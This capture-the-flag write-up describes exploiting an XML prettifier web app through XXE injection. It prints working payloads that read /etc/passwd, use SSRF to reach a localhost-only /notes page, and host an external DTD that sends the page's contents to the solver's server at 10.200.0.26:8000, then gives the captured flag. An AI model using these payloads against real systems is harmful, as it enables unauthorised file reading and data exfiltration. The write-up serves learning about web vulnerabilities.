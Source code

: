 # XML Prettifier

Hi, packet inspector,

some former employe of Mysterious Delivery Ltd. has created prettifier for XML code. It is polite to provide information
to the AI in nicely formatted XML, isn't it? Rumors say that the employee also left some crucial information somewhere
on the web.

Find the crucial information on webpage http://prettifier.mysterious-delivery.tcc:50000 .

May the Packet be with you!

---

This challenge gave me a hard time. I knew what I need to do, I just couldn't figure out how exactly to do it.

This is the portal

![](portal.png)

The goal is to read **Notes** (`/notes`) which are, however, protected by the IP filter:

```
HTTP 403 Forbidden
IP filter is active, content is accessible only from localhost.
```

The first obvious choice is to try [XXE injection](https://portswigger.net/web-security/xxe). And indeed,
the web is vulnerable:

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<a>&xxe;</a>

<a>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
...
```

So far so good. Let's try SSRF to read `/notes` and bypass IP filter:

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://localhost:50000/notes"> ]>
<a>&xxe;</a>

http://localhost:50000/notes:3:2:FATAL:PARSER:ERR_NAME_REQUIRED: StartTag: invalid element name
http://localhost:50000/notes:13:8:FATAL:PARSER:ERR_TAG_NAME_MISMATCH: Opening and ending tag mismatch: link line 12 and head
http://localhost:50000/notes:45:8:FATAL:PARSER:ERR_TAG_NAME_MISMATCH: Opening and ending tag mismatch: link line 9 and html
http://localhost:50000/notes:45:8:FATAL:PARSER:ERR_TAG_NOT_FINISHED: Premature end of data in tag meta line 8
<string>:2:9:FATAL:PARSER:ERR_UNDECLARED_ENTITY: Entity 'xxe' failed to parse
```

This kinda works. Unfortunately notes content is **not a valid XM**L, so it can't be included into our XML.

I read a few articles about XXE, looking for some way how to get around this.

- [HLOverflow / XXE-study](https://github.com/HLOverflow/XXE-study)
- [XML external entity (XXE) injection: PortSwigger](https://portswigger.net/web-security/xxe)
- [XXE - XEE - XML External Entity: HackTricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)

All the possible solutions required to host somewhere my malicious DTD. However, the server **doesn't have access to the
internet**.

## Sidetrack: Reading filesystem

I was a bit desperate and started to look for some alternatives, hoping to find something interesting on the filesystem.

List of possibly interesting files to read:

- `/etc/passwd`
- `/etc/resolv.conf`
- `/etc/hosts`
- `/etc/init.d/apache2` (not valid XML)
- `proc/self/cwd` - points to current workdir of the running process
- `proc/self/maps` - memory layout, loaded libraries, see [](maps.txt)
- `proc/net/route`

I was able to figure out this Apache + WSGI + Python based app. Located in `/opt/prettier`. Didn't help me much though
as I was unable to read any source code or the notes file directly from the disk.

## Solution: The VPN 🤦‍♂️

After all I asked for a hint, and I was told to **use my computer to host the malicious DTD**!
My machine is in VPN so the Prettifier server can access it. Of course!

Then it was easy. I used Python `http.server` module to host my malicious DTD:

```
<!ENTITY % file SYSTEM "http://localhost:50000/notes">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://10.200.0.26:8000/?x=%file;'>">
%eval;
%exfiltrate;
```

Don't forget to disable/configure the firewall.

Finally, send the request:

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://10.200.0.26:8000/malicous.dtd"> %xxe;]>
```

The request failed (`Invalid URI`) but the printed error message contains the flag:

![](solved.png)

Flag is `FLAG{GG53-5U3w-VT8F-qB31}`



